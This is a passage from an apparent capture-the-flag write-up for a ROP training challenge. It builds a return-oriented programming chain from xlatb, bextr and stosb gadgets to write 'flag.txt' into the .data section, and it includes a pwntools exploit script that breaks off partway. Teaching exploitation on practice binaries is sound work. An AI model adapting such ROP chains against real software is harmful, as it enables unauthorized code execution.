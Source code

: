 Let's use the `.data` section which has the address
`0x00601028`

Using everything we've found we can finally create a
function which will write a byte to a location in memory

```python
char_map = {'f': 0x0040058a, 'l': 0x004003e4, 'a': 0x00400424,
            'g': 0x004003cf, '.': 0x004003fd, 't': 0x004003e0,
            'x': 0x00400725}

# initial al value
al = 11 

# char is what we will write
# addr is address of target char
# offset will find the proper writing location
# returns ROP chain in bytes
def write_byte(addr, char, offset):
    global al
    
    # set address to get byte
    payload = set_rbx(addr-al)

    # read byte into al
    payload += p64(gadget1)
    # update al with new value
    al = ord(char)

    # write byte al into .data
    rdi = p64(write_addr + offset)
    payload += p64(pop_rdi) + rdi + p64(gadget3)
    return payload
```

## Exploit
We have everything we need to build our exploit

```python
#!/bin/python3
from pwn import *

# addresses
write_addr = 0x00601028     # data addr
print_file_addr = 0x00400510
pop_rdi = 0x004006a3
junk = 0xdeadbeefdeadbeef

# xlatb
# gets byte from table memory with
# register al as the index (8 bits unsigned int)
# rbx contains base addr
# returns result into al
gadget1 = 0x00400628

# pop rdx
# pop rcx
# add rcx, 0x3ef2
# bextr rbx, rcx, rdx
# extracts bits from rcx according to rdx
# result saved in rbx
gadget2 = 0x0040062a

# stosb byte [rdi], al
# stores byte from al into rdi
```